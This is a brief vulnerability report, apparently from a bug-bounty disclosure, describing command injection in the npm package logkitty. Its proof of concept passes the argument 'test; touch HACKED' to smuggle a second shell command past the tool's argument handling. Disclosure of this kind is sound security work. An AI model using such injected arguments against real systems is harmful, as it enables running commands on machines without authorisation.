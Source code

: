 # Overview

The issue occurs because a `user input` is formatted inside a `command` that will be executed without any check.

# Proof of Concept (Credit: [Mik317](https://huntr.dev/app/users/Mik317))

1. Check there aren't files called `HACKED`
2. Execute the following commands in another terminal:

```bash

npm i logkitty # Install affected module

logkitty android app 'test; touch HACKED' #  Note the *touch command* is inside the *'* (single quote), so it's an argument, while it will be executed anyway

```

3. Recheck the files: now `HACKED` has been created

